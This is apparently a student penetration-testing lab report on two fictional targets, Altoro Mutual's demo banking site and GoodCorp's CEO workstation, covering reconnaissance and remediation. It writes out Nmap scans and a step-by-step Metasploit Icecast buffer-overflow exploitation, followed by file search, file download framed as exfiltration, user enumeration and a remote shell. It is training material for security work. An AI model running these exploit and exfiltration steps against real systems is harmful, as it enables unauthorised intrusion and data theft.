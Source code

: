 # pen-testing-1
Identify any vulnerabilities associated with the public-facing web application for fictional corporation "Altoro Mutual" and perform security tests against workstation belonging to CEO of fictional company "GoodCorp Inc."

# Altoro Mutual

## Summary
Altoro Mutual, a banking service, is concerned about their online presence and security of website `demo.testfire.net` being compromised by malicious actors. This report outlines the non-invasive investigation of their online security through website enumeration, discovery, and vulnerability detection. 

## Google Dorking
Using Google and its built-in search criteria, any person with access can easily discover the name of the CEO of Altoro Mutual: *Karl Fitzgerald*. 

Search terms used:
`site:demo.testfire.net "Chief Executive Officer"`

Using the name of the CEO, an attacker can attempt brute force attacks to access the website and other systems belonging to Altoro Mutual by attempting login credentials.

They can also spoof an email using his name and a similar email address to those automatically generated for employees to perform a social engineering campaign on other employees, or to target the CEO directly using his name through legitimate-looking emails.

## DNS and Domain Discovery
Using Domain Dossier, one can discover various details about Altoro Mutual and its internal network attached to the domain `demo.testfire.com`.

**Company Location**
Sunnyvale, CA

**NetRange IP Address**
65.61.137.64 - 65.61.137.127

**Infrastructure Storage**
Rackspace Backbone Engineering

**DNS Server IP Address**
65.61.137.117

## Shodan

Using Shodan, the notable details are revealed to be:
* open ports: 80 (TCP), 443 (TCP)
* running services: Apache Tomcat/Coyote JSP engine 1.1

## Recon-ng

Using Recon-ng, it is discovered that `demo.testfire.net` is vulnerable to XSS.

1. Install the Recon module `xssed`
  * `marketplace install xssed`
2. Set the source to `demo.testfire.net`
  * `options set SOURCE demo.testfire.net`
3. Run the module 
  * `run`

## Zenmap

Altoro Mutual has specifically requested a scan of any potential vulnerabilities with their file-sharing server.

After using Zenmap, it is apparent that under TMP, any anonymous user is able to read or write files in the C:\tmp directory. This leaves integrity and confidentiality of any files in the temporary directory especially vulnerable to an attack.

This vulnerability can be mitigated by restricting anonymous editing on files in this directory (or any others) by setting the DWORD value 'RestrictAnonymous' to 1 in the correct directory. This can also be mitigated by blocking NetBIOS on the host's Windows server by preventing TCP ports 139 and 445 from passing through the firewall on the network.

**Discovery Steps**

Use Zenmap to run a service scan against client machine and output results into a new text file named `zenmapscan.txt`:
* `nmap -sV 192.168.0.10 -oN 'scan-%T-%D.txt'`

Use Zenmap to execute a vulnerable script:
* `nmap -T4 -A -v --script smb-enum-shares 192.168.0.10`

# GoodCorp, Inc.

## Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.

The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs with major vulnerabilities. The details of the attack are below.

## Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite

**Vulnerability Explanation:**
The Icecast Header Overwrite exploit exploits a buffer overflow in icecast’s header parsing. By sending 32 HTTP headers, the request writes one past the maximum pointer array, generally overwriting inconsequential files (readable not executable). Icecast thinks the thread is still in use through ExitThread, eventually maxing out the threadpool. ([Source](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/))

**Severity:**
Because the vulnerability allows an attacker to execute arbitrary code on the victim’s host machine with Icecast server process privileges, this vulnerability should be classified as high severity.

## Proof of Concept

Perform a service and version scan using Nmap to determine which services are up and running.
`nmap -sV 192.168.0.20`
![Service and Version Scan](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/1.png)

Search for any Icecast exploits
`searchsploit icecast`
![Icecast search](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/2.png)

Start Metasploit to use the exploit
`msfconsole`
![Start Metasploit](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/3.png)

Search for the Icecast module and load it for use
`search icecast`
![Search Icecast Module](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/4.1.png)
`use exploit /windows/http/icecast_header`
![Start Icecast Module](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/4.2.png)

Set the RHOST to the target machine
`set RHOST 192.168.0.20`
![Set RHOST](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/5.png)

Run the Icecast exploit and find the secret file using it.
`run`
![Run Exploit](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/6.1.png)
`search -f *secretfile*`
![Search for secret file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/6.2.png)

Search for the recipe file and exfiltrate it.
`search -f *recipe*`
![Search for recipe file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/7.1.png)
`download 'C:\Users\IEUser\Documents\Drinks.recipe.txt'`
![Exfiltrate recipe file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/7.2.png)

Enumerate all logged-in users on the remote host.
`run post/windows/gather/enum_logged_on_users`
![Enumerate users](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/A.png)

Open a Meterpreter shell and gather system information for the target.
`shell`
![Open shell](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/B.png)
`sysinfo`
![Gather system information](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/C.png)

## Recommendations

The Icecast vulnerability is caused by the software being out of date, so updating to version 2.0.2 or later should resolve the issue. 

To further harden the system against future exploits of similar variety, it is recommended to close all ports that do not need to be open, encrypt all files that should be confidential, and enable firewall rules to explicitly and exclusively allow traffic on needed ports.
